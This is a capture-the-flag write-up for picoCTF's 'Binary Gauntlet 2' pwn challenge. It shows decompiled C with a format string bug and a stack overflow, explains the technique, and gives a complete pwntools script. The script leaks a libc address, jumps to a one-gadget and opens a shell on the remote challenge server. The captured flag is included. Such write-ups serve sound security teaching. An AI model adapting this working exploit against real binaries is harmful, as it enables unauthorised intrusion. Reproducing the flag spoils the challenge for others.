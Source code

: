# Binary Gauntlet 2

## Description

Author: madStacks

How does ASLR affect your exploit?
gauntlet nc -v mercury.picoctf.net 59636
The flag for this challenge does not include the standard picoCTF{} wrapper.

## Challenge

The binary is mostly the same as before, except we are no longer given a stack leak.
Also, ASLR is enabled on the server to randomise some addresses.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

### Decompiled code

```c
undefined8 main(undefined8 argc, char **argv)
{
    char **var_80h;
    int64_t var_74h;
    char *format;
    
    var_74h._0_4_ = (undefined4)argc;
    format = (char *)sym.imp.malloc(1000);
    sym.imp.fgets(format, 1000, _reloc.stdin);
    format[999] = '\0';
    sym.imp.printf(format);
    sym.imp.fflush(_reloc.stdout);
    sym.imp.fgets(format, 1000, _reloc.stdin);
    format[999] = '\0';
    sym.imp.strcpy((int64_t)&var_74h + 4, format, format);
    return 0;
}
```

## Intended Solution

Due to the format string vulnerability, we can still leak a stack address by printing the saved base pointer.
Once we figure out the offset, and potentially add a nop sled to our shellcode, we can again use `strcpy` to write shellcode onto the stack, then overwrite the return address to jump to our shellcode.

This solution is essentially the same as the previous solution, except that we are responsible for getting our own stack leak and finding the offset to the desired address.

## Catch-all Solution

Despite ASLR being enabled, we can still use ret2libc and a one gadget, as we use `printf` to leak the address of `__libc_start_main_ret` from the stack.

Once we have the base address of libc from this leak and the known offset based on the libc version, we can find a one gadget and jump to it.

## Exploit

```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./gauntlet")
libc = ELF("./libc6_2.27-3ubuntu1.4_amd64.so")
ld = ELF("./ld-2.27.so")

context.binary = exe


def conn():
    if args.LOCAL:
        return process([ld.path, exe.path], env={"LD_PRELOAD": libc.path})
    else:
        return remote("mercury.picoctf.net", 59636)


def main():
    r = conn()

    if args.LOCAL:
        context.terminal = ["tmux", "splitw", "-h"]
        #gdb.attach(r, 'b*0x00400727')

    r.sendline('%p ' * 23)

    LibcRet = int(r.recvline().decode().split()[22], 0)

    print(LibcRet)

    LibcBase = LibcRet - 0x021bf7;
    OneGadget = LibcBase + 0x4f432;

    payload = flat({
        0x78: OneGadget,
    })

    print(payload)

    r.sendline(payload)

    r.interactive()


if __name__ == "__main__":
    main()
```

## Flag

`35abcfc34466e83a28f548a2099ad06d`

